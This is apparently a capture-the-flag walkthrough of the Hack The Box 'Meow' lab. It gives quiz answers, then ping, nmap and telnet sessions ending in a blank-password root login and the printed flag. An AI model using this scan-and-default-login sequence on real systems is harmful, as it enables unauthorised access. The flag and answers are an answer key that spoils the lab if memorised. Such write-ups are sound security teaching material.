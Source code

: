 ## Tasks

###### Task 1

What does the acronym VM stand for? 

[Virtual machine](https://en.wikipedia.org/wiki/Virtual_machine)

###### Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell. 

[Terminal](https://en.wikipedia.org/wiki/Terminal_emulator)

###### Task 3

What service do we use to form our VPN connection into HTB labs? 

[openvpn](https://en.wikipedia.org/wiki/OpenVPN)

###### Task 4

What tool do we use to test our connection to the target with an ICMP echo request? 

[ping](https://en.wikipedia.org/wiki/Ping_(networking_utility))
###### Task 5

What is the name of the most common tool for finding open ports on a target? 

[nmap](https://en.wikipedia.org/wiki/Nmap)

###### Task 6

What service do we identify on port 23/tcp during our scans? 

[telnet](https://en.wikipedia.org/wiki/Telnet)

###### Task 7

What username is able to log into the target over telnet with a blank password?

[root](https://en.wikipedia.org/wiki/Superuser)


## Flags

Ping the Target machine's IP address
```shell
[user@localhost ~]$ ping 10.129.190.255
PING 10.129.190.255 (10.129.190.255) 56(84) bytes of data.
64 bytes from 10.129.190.255: icmp_seq=1 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=2 ttl=63 time=10.5 ms
64 bytes from 10.129.190.255: icmp_seq=3 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=4 ttl=63 time=10.3 ms
^C
--- 10.129.190.255 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 10.216/10.303/10.452/0.093 ms
```
Scan the Target machine's open ports using nmap
```shell
[user@localhost ~]$ nmap -sV 10.129.190.255
Starting Nmap 7.95 ( https://nmap.org ) at 2024-08-14 21:50 EDT
Nmap scan report for 10.129.190.255
Host is up (0.010s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.40 seconds
```
After analyzing nmap's results, we can see that port 23 is open and is running the telnet service. Try connecting to the target using telnet.
```shell
[user@localhost ~]$ telnet 10.129.190.255
Trying 10.129.190.255...
Connected to 10.129.190.255.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█



Meow login:
```
A login Banner apears, try logging in with default credentials
```shell
Meow Login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 15 Aug 2024 03:19:20 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.190.255
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```
Successfully logged in with a shell, take a look through the file struture
```shell
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
```

















































































